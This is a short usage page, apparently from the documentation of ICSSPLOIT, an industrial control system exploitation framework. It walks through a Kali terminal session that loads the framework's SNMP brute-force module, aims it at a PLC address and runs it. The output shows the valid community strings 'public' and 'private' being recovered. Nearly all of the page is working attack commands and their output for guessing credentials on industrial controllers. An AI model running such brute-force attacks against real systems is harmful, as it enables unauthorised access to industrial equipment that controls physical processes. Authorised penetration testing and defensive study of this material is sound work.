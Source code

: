 # SNMP Bruteforece

# Use SNMP bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 13
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search snmp
    creds/snmp_bruteforce
    isf > use creds/snmp_bruteforce
    isf (SNMP Bruteforce) >

    
# set options
    isf (SNMP Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target IP address or file with target:port (file://)
       port       161                  Target port
    
    
    Module options:
    
       Name                Current settings                                               Description
       ----                ----------------                                               -----------
       version             2                                                              Snmp version 1:v1, 2:v2c
       threads             8                                                              Number of threads
       stop_on_success     yes                                                            Stop on first valid community string
       verbosity           yes                                                            Display authentication attempts
       snmp                file:///root/Desktop/temp/isf/icssploit/wordlists/snmp.txt     Community string or file with community strings (file://)
    
    isf (SNMP Bruteforce) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    # Some PLC only support snmp version 1
    isf (SNMP Bruteforce) > set version 1
    [+] {'version': '1'}

# run module
    isf (SNMP Bruteforce) > run
    [*] Running module...
    [*] worker-0 thread is starting...
    [*] worker-1 thread is starting...
    [*] worker-2 thread is starting...
    [*] worker-3 thread is starting...
    [*] worker-4 thread is starting...
    [*] worker-5 thread is starting...
    [*] worker-6 thread is starting...
    [*] worker-7 thread is starting...
    [+] Target: 192.168.70.210:161 worker-0: Valid community string found - String: 'public'
    [*] worker-0 thread is terminated.
    [*] worker-4 thread is terminated.
    [+] Target: 192.168.70.210:161 worker-1: Valid community string found - String: 'private'
    [*] worker-1 thread is terminated.
    [*] worker-6 thread is terminated.
    [*] worker-5 thread is terminated.
    [*] worker-7 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-2: Invalid community string - String: 'wheel'
    [*] worker-2 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-3: Invalid community string - String: '0'
    [*] worker-3 thread is terminated.
    [*] Elapsed time:  6.13672208786 seconds
    [+] Credentials found!
    
       Target             Port     Community Strings
       ------             ----     -----------------
       192.168.70.210     161      public
       192.168.70.210     161      private
    
    isf (SNMP Bruteforce) >